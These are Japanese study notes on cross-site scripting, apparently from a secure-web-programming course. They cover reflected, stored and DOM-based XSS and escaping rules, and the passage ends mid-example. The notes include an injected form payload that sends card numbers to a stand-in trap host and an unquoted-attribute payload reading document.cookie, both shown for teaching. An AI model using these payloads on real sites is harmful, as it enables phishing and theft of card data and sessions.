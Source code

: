 ```
<html><body>
<form action="https://target.com/" method="POST">
<input name="name" type="hideen" value='"></form><form style=... action=http://trap.com method=POST>
カード番号<input name=card><input value=申し込み type=submit></form>'>

<input style=... type="submit" value="粗大ゴミ申し込み">
</form>
</body></html>
```

* これは粗大ゴミ申し込みサイトへのリンクに見える
* クリックすると`https://target.com`のサイトに移動する
* 元のフォームが隠されて新しい`form`が開始する
```
<form style=... action=http://trap.com method=POST>
カード番号<input name=card>
<input value=申し込み type=submit>
</form>
```
* styleにより元のフォームを隠してactionのURLに罠サイト(`http://trap.com`)を指定する

### 反射型XSSと持続型XSS
* 反射型(reflected)XSS 攻撃用JavaScriptが攻撃対象サイトとは別のサイトにある場合
    * 入力値をそのまま表示するページで発生することが多い
    * 罠サイトへの誘導が必要
* 持続型(stored/persistent)XSS
    * 攻撃用JavaScriptが攻撃対象のデータベースなどに保存される場合
    * WebメールやSNSなどで発生しやすい
    * 罠サイトへの誘導が不要で攻撃しやすい
* DOMベースXSS
    * サーバを経由せずにJavaScriptのみで表示しているパラメータがあるページに発生する

### 脆弱性が生まれる原因

* HTML生成のときにメタ文字を正しく扱わないため
* メタ文字を文字そのものとして扱うエスケープ処理が必要

エスケープ方法

置かれている場所|解釈されるもの |終端文字|エスケープ方法
----------------|---------------|--------|--------------------------------------
要素内容        |タグと文字参照 |  <     |<と&を文字参照にする
属性値          |文字参照       |  "     |属性値を"で囲み<と"と&を文字参照にする

### 引用符で囲まない属性値のXSS

```
<input type=text name=mail value=<?php echo $_GET['p']; ?>>
```

* `p`に`1+onmouseover%3dalert(document.cookie)`を与える
* 上記inputは次のように展開される
